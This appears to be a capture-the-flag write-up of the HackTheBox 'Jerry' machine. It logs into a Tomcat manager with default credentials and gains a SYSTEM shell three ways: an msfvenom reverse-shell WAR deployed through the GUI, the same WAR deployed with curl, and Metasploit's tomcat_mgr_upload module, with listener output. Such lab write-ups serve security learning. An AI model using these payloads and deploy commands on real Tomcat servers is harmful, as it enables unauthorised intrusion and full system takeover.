


# Jerry: 10.10.10.95

## Hints

- The goal is to get access to the Tomcat Manager Application - default/known/discoverable creds are the way in!
- Get a foothold by getting Tomcat to run a malicious WAR file
- No privesc needed
- Flags are in a weird location?! Two for the price of one?

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
```

## 8080: Recon

From the nmap scan, we only have one port open, 8080. Also ran another port scan for all ports - but didn't discover anything else open. Browsing to port 8080 shows the default Tomcat landing page.


Started running the normal `gobuster` scan against the target.

```none
gobuster dir -t 20 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.10.95:8080 -o gobuster_80_root_medium.log
```

While doing a `gobuster` scan, started searching for exploits against Tomcat, as version 7.0.88 is quite old. I used `searchsploit tomcat` and some Google foo - but couldn't find anything that matched, or was close to, the version on the target.

Found manager interface, as I knew the location and it was reported by `gobuster`. I know that Tomcat has password guessing protection - so didn't think that would be a suitable option. The main problem is the process is very slow when you avoid lockouts. After some trial and error, and some guessing, discovered the credentials that are provided as an example in the project documentation, and when you hit the manager endpoint and cancel out of the login.

- Username: `tomcat`
- Password: `s3cret`

With these, we can log in to the manager application.



At the bottom of the manager app, there is some information about the target machine. It is a Windows Server 2012 R2 64bit operating system with the hostname JERRY.



After finishing this machine and proofing this write-up, I decided to structure this one a little differently. At this point, we know the username and password for the full manager app, not just the host manager app. I also figured out that after you get remote code execution via Tomcat, you will have full Admin access - as Tomcat is run by `root`. So owning this machine is relatively easy. So I have written up a selection of approaches to getting remote code execution for my future reference, as well as to have the experience in trying a bunch of methods.

## Method 1: Deploy a Malicious WAR Using the Manager Application

In this method we are going to create a malicious WAR file using `msfvenom` and upload it to Tomcat using the web-based Application Manager. It is a good non-metasploit method. Using `msfvenom` to generate the WAR file is much easier than creating your own using a JSP payload - but have a look at my Tabby writeup if you would like to see that method.

Start by generating a malicious WAR file using `msfvenom`.

```none
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=9001 -f war > rev.war
```

On the Manager App, we can select to upload a WAR file using the "Deploy" section. Use the "WAR file to deploy" option, use "Browse" to select the WAR file you just created, then click the "Deploy" button.


You can execute the malicious was file by browsing to the target URL, which is the name of the WAR file. In my example, my WAR file was named `rev.war`, so I browsed to:

```none
http://10.10.10.95:8080/rev/
```

Make sure to have a netcat listener up to catch the request.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.95] 49202
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

If you want to remove the WAR file, navigate to the "Applications" section of the Tomcat Manager application, find the correct "Path" and use the "Undeploy" button. This method is pretty good and fast!

## Method 2: Deploy a Malicious WAR Using `curl`

If you paid attention to any of the URLs and requests in the last method, you might have noticed that Tomcat has some endpoints that are used when deploying and undeploying WAR files. This method is useful if you have Tomcat credentials, but that user doesn't have the `manager-gui` role - meaning you can't access the Tomcat Manager Application. But if you have the `manager-script` role you will be able to use this technique. This was the method you needed to use for the Tabby machine.

Start by generating a malicious WAR file using `msfvenom`.

```none
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=9001 -f war > rev.war
```

Deploy the malicious WAR file using `curl` - by making a POST request to the `deploy` endpoint.

```none
curl --user 'tomcat:s3cret' --upload-file rev.war http://10.10.10.95:8080/manager/text/deploy?path=/rev
```

Trigger the malicious WAR file, again using `curl`.

```none
curl http://10.10.10.95:8080/rev/
```

Make sure to have a netcat listener up to catch the request.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.95] 49202
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

If you want to remove the WAR file, we can issue another `curl` command to the `undeploy` endpoint with the correct name.

```none
curl --user 'tomcat:s3cret' http://10.10.10.95:8080/manager/text/undeploy?path=/rev
```

As an important note, Tomcat versions 7 and up need to have `text` in the request URL path. Tomcat versions below 7 do not need this addition. This method is also fast and easy, with the benefit that you could possibly script the process to make it automated - which would give you a similar point-and-click solution as you get with the Metasploit module.

## Method 3: Metasploit and `tomcat_mgr_upload`

As a final option, here is a Metasploit version that also works. This option is really simple because it autogenerates a WAR file on the fly, deploys it, and catches the incoming reverse shell request. Metasploit is great for things like this, fully automated and the code/method has been reviewed and tested by many users. The downside is that lots of the action and configuration are hidden away. For solutions like this, I always read the module source code to see what is going on under the hood.

Start by loading up the `msfconsole`. The load the Tomcat Manager Upload module.

```none
use multi/http/tomcat_mgr_upload
```

Then set the required options, as listed below.

```none
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpUsername tomcat
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpPassword s3cret
msf6 exploit(multi/http/tomcat_mgr_upload) > set RHOSTS 10.10.10.95
msf6 exploit(multi/http/tomcat_mgr_upload) > set RPORT 8080
msf6 exploit(multi/http/tomcat_mgr_upload) > set LHOST 10.10.14.5
```

If we run the exploit, we get a nice reverse shell by default.

```none
msf6 exploit(multi/http/tomcat_mgr_upload) > run

[*] Started reverse TCP handler on 10.10.14.5:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying FjSD0Y5mCEIn...
[*] Executing FjSD0Y5mCEIn...
[*] Undeploying FjSD0Y5mCEIn ...
[*] Meterpreter session 1 opened (10.10.14.5:4444 -> 10.10.10.95:49207) at 2021-08-15 15:32:39 +1200

meterpreter > 
```

Very fast and easy! Definitely the fastest out of all the options available. Metasploit has some good [documentation on using this module against different Tomcat versions](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/http/tomcat_mgr_upload.md). Additionally, have a look at the [tomcat_mgr_upload.rb course code](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/tomcat_mgr_upload.rb) to get an idea of how the module works and how it is coded.

## Flag Location

Using any of the 3 methods listed above will get you a shell on the target machine with SYSTEM level access - so we can do anything. This machine was pretty weird, as it had weird flags. There was no "normal" user on the system, and instead, there were two flags owned by the Administrator in the following location.

```none
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
```

Done!

## Lessons Learned

- There are always multiple ways to go about CTFs and pentesting
- I always like the control you get from running manual exploits and setting everything up exactly how you want it

## Useful Resources

- [HackTheBox - Jerry by ippsec](https://www.youtube.com/watch?v=PJeBIey8gc4)
- [HTB: Jerry by 0xdf](https://0xdf.gitlab.io/2018/11/17/htb-jerry.html)
